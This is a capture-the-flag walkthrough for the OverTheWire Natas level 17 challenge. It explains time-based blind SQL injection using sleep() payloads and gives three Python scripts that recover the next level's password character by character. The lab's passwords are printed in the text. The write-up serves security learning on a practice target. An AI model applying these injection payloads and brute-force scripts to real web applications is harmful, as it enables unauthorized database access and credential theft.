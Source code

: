 # Level 16 → Level 17

## Details
Username: `natas17`<br />
Password: `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`<br />
URL:      http://natas17.natas.labs.overthewire.org

## Solution

<img src="./0.png"></img>

<img src="./1.png"></img>

Very similar to the stage **level14 to level15** but the difference is that there is no output for control needs. If so, the only thing that will be available to us now is - time. We will create a query so that if the password is in the correct format, we will wait a few seconds. By the time the answer is returned we will know what happened and act accordingly.

It took me a while to get the right string, and finally it turned out that `natas18" and sleep(10);-- -` works correctly. That means the answer will be delayed for about 10 seconds.

For example, the input `natas18" and password like binary "%4%" and sleep(10);-- -` will return after 10 seconds, while `natas18" and password like binary "%3%" and sleep(10);- - -` will return after a moment. This means that the digit '4' will appear in the password, and the digit '3' will not appear. That is, if when running the query we reached `sleep()`, that means we passed all the conditions of the Boolean AND operator.

We will now create a code that identifies all the characters that appear in the password (so as not to waste unnecessary time during its discovery later):

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# Current level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_time_based = "natas18\" and password like binary \"%{}%\" and sleep(" + str(waiting_time) + ");-- -"

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

characters_in_use = []
for c in digits + ascii_letters:
    res = get(url=URL.format(sql_injection_time_based.format(c)), auth=AUTH)
    
    if(res.elapsed.seconds >= waiting_time):
        characters_in_use.append(c)
        print("The password contains the following characters: " + ",".join(characters_in_use))
```

This is the resoult:

<img src="./2.png"></img>

Now we can run the brute force on the relevant characters only:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# Current level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_time_based = "natas18\" and password like binary \"{}%\" and sleep(" + str(waiting_time) + ");-- -"
relevant_characters = ['4','6','8','a','g','k','n','o','q','u','v','w','x','D','E','F','G','J','L','N','P','Q','U','V','Z']
password = ""
password_length = 32

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

for _ in range(password_length):
    for c in relevant_characters:
        res = get(url=URL.format(sql_injection_time_based.format(password+c)), auth=AUTH)
        
        if(res.elapsed.seconds >= waiting_time):
            password += c
            print("Password: " + password.ljust(password_length, "_"))
            break
```

<img src="./3.png"></img>

And this is the password.


## Password for the next level:
```
8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
```

## Appendix

The following code sums it all up. Copy it into a Python file and run it. Enjoy:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from string import digits, ascii_letters

# Current level details
natas17_username = "natas17"
natas17_password = "XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd"
natas18_password = ""
password_length = 32
characters_in_use = []

# The sql injection time based input:
waiting_time = 3 # seconds
sql_injection_recover_charecters = "natas18\" and password like binary \"%{}%\" and sleep(" + str(waiting_time) + ");-- -"
sql_injection_recover_password = "natas18\" and password like binary \"{}%\" and sleep(" + str(waiting_time) + ");-- -"

# GET HTTP details
URL = "http://natas17.natas.labs.overthewire.org/?username={}"
AUTH = HTTPBasicAuth(natas17_username, natas17_password)

# Recover relevant characters
for c in digits + ascii_letters:
    res = get(url=URL.format(sql_injection_recover_charecters.format(c)), auth=AUTH)

    if(res.elapsed.seconds >= waiting_time):
        characters_in_use.append(c)
        print("The password contains the following characters: " + ",".join(characters_in_use))

# Revover the password
for _ in range(password_length):
    for c in characters_in_use:
        res = get(url=URL.format(sql_injection_recover_password.format(natas18_password+c)), auth=AUTH)
        
        if(res.elapsed.seconds >= waiting_time):
            natas18_password += c
            print("Password: " + natas18_password.ljust(password_length, "_"))
            break

print("Password for natas18 is: " + natas18_password)
```
